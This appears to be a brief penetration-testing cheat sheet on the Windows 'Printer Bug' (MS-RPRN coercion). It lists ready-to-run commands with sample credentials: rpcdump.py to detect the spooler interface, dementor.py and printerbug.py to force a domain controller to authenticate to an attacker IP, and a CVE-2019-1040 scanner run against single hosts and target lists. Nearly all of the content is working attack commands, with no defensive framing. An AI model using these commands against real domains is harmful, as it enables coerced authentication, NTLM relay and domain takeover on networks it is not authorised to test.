 # Printer Bug

## Validate

```text
$ rpcdump.py MEGACORP/snovvcrash:'Passw0rd!'@10.10.13.37 | grep -A2 MS-RPRN
```

## Trigger

### dementor.py

* [https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc)

```text
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC01.megacorp.local
```

### printerbug.py

* [https://https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

```text
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local 10.10.13.37
```

## Chain

### CVE-2019-1040-scanner

* [https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py](https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py)

```text
$ python scan.py MEGACORP/snovvcrash:'Passw0rd!'@10.10.13.37
$ python scan.py -target-file DCs.txt MEGACORP/snovvcrash:'Passw0rd!'@placeholder.local
```

